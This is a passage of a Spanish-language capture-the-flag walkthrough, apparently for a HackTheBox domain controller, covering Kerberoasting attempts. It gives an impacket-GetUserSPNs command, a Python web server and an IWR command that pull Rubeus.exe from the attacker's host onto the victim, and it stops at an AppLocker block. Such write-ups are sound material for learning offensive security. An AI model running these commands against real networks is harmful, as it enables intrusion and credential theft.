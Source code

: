 ## Initial Access

### Kerberoasting Attack (GetUserSPNs) - \[FAILED]

Dado que hemos visto que existe un usuario susceptible al _**Kerberoasting Attack**_, procederemos a intentar a realizar el ataque a través de la herramienta _**GetUserSPNs**_, verificamos que no nos reporta ningún resultado.

Esto es debido seguramente a que el Kerberos no se encuentra expuesto, deberemos de buscar otra manera de explotar este ataque.

```bash
impacket-GetUserSPNs -dc-ip 10.10.10.103 htb.local/amanda -debug 2>/dev/null
```

<figure><img src="../../../.gitbook/assets/3402_vmware_VJeZeKHusy.png" alt=""><figcaption></figcaption></figure>

### Kerberoasting Attack (Rubeus)

Dado que disponemos de acceso a la máquina víctima (Domain Controller), podemos de probar de realizar el _**Kerberoasting Attack**_ a través de la herramienta de _**Rubeus.exe**_.

Procederemos  a intentar subir el binairo del _**Rubeus.exe**_ y en nuestro caso no nos permite la subida directamente con el comando "upload" que nos poporciona _**evil-winrm**_.

<figure><img src="../../../.gitbook/assets/3403_vmware_dHjyMAtZLf.png" alt=""><figcaption></figcaption></figure>

Probaremos de levantar un servidor web con Python y a descargar el archivo a través de IWR, verificamos que el binario se ha descargado correctamente en el equipo víctima.

```bash
python3 -m http.server 80

IWR -Uri http://10.10.16.5/Rubeus.exe -OutFile Rubeus.exe
```

<figure><img src="../../../.gitbook/assets/3404_vmware_VEiht0cyON.png" alt=""><figcaption></figcaption></figure>

Al intentar ejecutar el binario en la ruta (C:\Temp), nos aparece un eror indicando que se ha bloqueado la ejecución debido a una política, muy probablemente debido al AppLocker.
